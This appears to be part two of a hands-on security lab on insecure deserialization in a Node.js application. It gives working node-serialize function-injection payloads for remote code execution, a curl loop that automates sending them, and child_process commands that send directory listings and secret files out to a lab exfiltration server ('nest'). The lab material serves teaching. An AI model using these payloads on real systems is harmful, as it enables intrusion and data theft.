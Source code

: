 # Lab instructions (2/3)

## Insecure deserialiation

What happens if you add the opening and closing parentheses immediately after
the function definition?

```bash
curl --data '{"id":"_$$ND_FUNC$$_function(){return(\"result\")}()"}' -H "Content-Type: application/json" http://tmo/request
```

Congratulations! You've found the insecure deserialization vulnerability. Now
you're able to execute functions on the `target` server. This is an important
step.

However, the challenge is also about exfiltrating data. That's what the second
part of the lab will be about.

## Automating attacks

11. When performing security tests, often you need to tweak and tinker with
    payloads. Instead of having to use the command line to execute `curl` every
    time with different payloads, it make sense to use some automation here.

    First, let's put the payload into a separate file, and send the contents of
    the file as data.

```bash
echo '{"id":"_$$ND_FUNC$$_function(){return(\"result\")}()"}' > payload.json
```

Now modify the `curl` command so that it reads the contents of the file
containing the payload, and uses it as POST data. This can be done by using the
`@` character before the filename, as `--data` parameter.

```bash
curl --data "@payload.json"  -H "Content-Type: application/json" http://tmo/request
```

11. Second, let's automate the `curl` command so that it automatically executes,
    as soon as the file `payload.json` changes.

The tool `inotifywait` can check whether the contents of a file change. By using
an infinite loop, you can execute the `curl` command, each time that
`payload.json` changes.

```bash
while true; do inotifywait payload.json && \
curl --data "@payload.json"  -H "Content-Type: application/json" http://tmo/request; \
done
```

You can always exit the loop using Control-C. However, for the rest of the lab
session, let this infinite loop be active.

Open up another terminal window, and see what happens when you `touch` the file
`payload.json`. This should fire off an event, and execute the `curl` command
for you.

:blue_book: **Note**: Long lines can be separated using the backslash. This
makes it easier reading the full command.

## Executing commands

12. You now have Remote Code Execution powers by exploiting the insecure
    deserialization exploit. Furthermore, you have automated sending payloads to
    the Globomantics server. Let's now try to execute **system commands** on the
    `tmo` server.

You can use the Node.js function `exec` from the library `child_process` to
execute processes. In the new terminal window, open up the `node` REPL, and try
out the following code to execute an `ls` command:

```js
proc = require("child_process");
proc.exec("ls /root");
```

This will execute the `ls /root` command - even though the results aren't
directly shown. Try for example to create a file, using `touch this_works`:

```js
proc = require("child_process");
proc.exec("touch this_works");
```

Exit the REPL using Control-D, and verify that the file `this_works` is created
using the `ls` command:

```bash
ls
```

So, you can execute system commands using the `exec` function from the
`child_process` library.

## Exfiltrating data

13. Often, during attacks, it is difficult to see the output of commands. That's
    when exfiltration servers come in handy: The output of commands can be sent
    to an external exfiltration server.

While the infinite loop is running, let's open up a text editor, and modify the
`payload.json`. A text editor that we can use is `mousepad`, but of course, any
plain text editor would do.

```bash
mousepad payload.json
```

:blue_book: **Note**: Of course any text editor will do: Mousepad is just a
simple editor, where you can save files using Control-S. Control-Q will quit the
program.

Let's modify the payload in such a way, that the `tmo` server accesses the
`nest` server. This way, we can exfiltrate data.

Make sure that the initial terminal window, which shows the logs of the `nest`
server is visible. This way, you can see whether the server receives requests
from `tmo`.

Write a payload that performs the `exec` function and executes a GET request
using `curl`, to our exfiltration server `http://nest/`:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"curl http://nest/\")}()"}
```

Save the file using Control-S. Don't close the editor yet, as you will need to
modify the payload later on.

If everything went well, the `inotifywait` tool should have detected that
`payload.json` was modified, and should have sent the contents to the `tmo`
server. That means, that you can perform exfiltration, using the `curl` tool,
and by sending data to `http://nest`.

If the payload did not contain any syntax errors, then the `tmo` server should
performed a GET request to the `nest` server, and a request should be visible in
the `nest` log output.

Should you not see anything, then double-check whether the `inotifywait`
infinite loop is still running, and whether the payload doesn't contain any
syntax errors.

## Finalizing the mission

14. As an attacker, usually one of the first steps you perform when having
    access to a server, is performing reconnaissance. Let's create a directory
    listing of the root on `tmo`.

    In the editor, modify the payload so that it creates a directory listing,
    and sends the contents back to the exfiltration server:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ls / > /tmp/output; curl --data '@/tmp/output' http://nest/\")}()"}
```

That isn't too easy to read, is it? Apparently the `--data` flag treats the data
as text, and will not preserve carriage returns or newlines.

Fortunately, we can use the flag `--data-binary` instead of `--data`, which
treats the data as-is. That way, the carriage returns and newlines are
preserved:

```js
{"id":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ls / > /tmp/output; curl --data-binary '@/tmp/output' http://nest/\")}()"}
```

This should output the directory listing. Using this technique, you now can look
around on the server, and see whether there are any interesting files that we as
Dark Kittens want to steal from Globomantics.

Try to obtain the contents of the file `/root/secret.txt`.

See for the solution of the lab [Solution 2](Solution_2.md)
